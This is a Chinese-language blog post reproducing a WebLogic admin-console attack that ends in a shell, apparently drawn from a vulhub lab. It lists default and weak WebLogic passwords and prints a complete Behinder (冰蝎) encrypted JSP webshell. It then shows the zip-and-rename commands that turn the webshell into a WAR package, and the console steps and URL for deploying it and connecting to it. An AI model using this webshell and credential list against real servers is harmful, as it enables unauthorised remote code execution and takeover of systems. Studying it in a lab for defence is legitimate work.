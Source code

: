 ```yaml
---
title: weblogic后台getshell
date: 2020-07-15 20:53:14
categories: 漏洞复现
tags: Weblogic
---
```


#### 复现过程

1.登陆

`http://IP:端口/console`

![](http://cdn.laohuan.art/2020-07-15_17-28-53.png)



要在后台getshell，必须得先登录，如何获取到登陆凭证，弱口令、爆破，或者其他社工方式。

<!--more-->

weblogic常见口令

| system      | password    |
| ----------- | ----------- |
| weblogic    | weblogic    |
| guest       | guest       |
| portaladmin | portaladmin |
| admin       | security    |
| joe         | password    |
| mary        | password    |
| system      | security    |
| wlcsystem   | wlcsystem   |
| wlcsystem   | sipisystem  |

2.制作war包

新建shell.jsp文件，内容为冰蝎webshell

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends Class
Loader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b
.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).rep
lace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.g
etInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES")
);new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decode
Buffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

压缩webshell

`zip shell.zip shell.jsp`

改变后缀

`mv shell.zip shell.war`

3.部署

![](http://cdn.laohuan.art/2020-07-15_17-12-27.png)

3.上载文件

![](http://cdn.laohuan.art/2020-07-15_17-13-09.png)

4.选择我们做好的shell.war

![](http://cdn.laohuan.art/2020-07-15_17-13-28.png)

5.下一步

![](http://cdn.laohuan.art/2020-07-15_17-14-20.png)

6.下一步，安装为应用程序

![](http://cdn.laohuan.art/2020-07-15_17-14-46.png)

7.下一步

![](http://cdn.laohuan.art/2020-07-15_17-15-16.png)

8.点击完成

![](http://cdn.laohuan.art/2020-07-15_17-15-40.png)

9.点击保存，显示设置成功

![](http://cdn.laohuan.art/2020-07-15_17-18-45.png)

10.当再次点击菜单栏的[部署]时，已经可以看到我们部署的应用程序

![](http://cdn.laohuan.art/2020-07-15_17-19-10.png)

11.使用冰蝎连接

`http://IP:端口/shell/shell.jsp`

![](http://cdn.laohuan.art/2020-07-15_17-10-22.png)

#### 参考链接

<https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password/>

<https://www.cnblogs.com/bmjoker/p/9822886.html/>

<https://www.pianshen.com/article/9302224952//>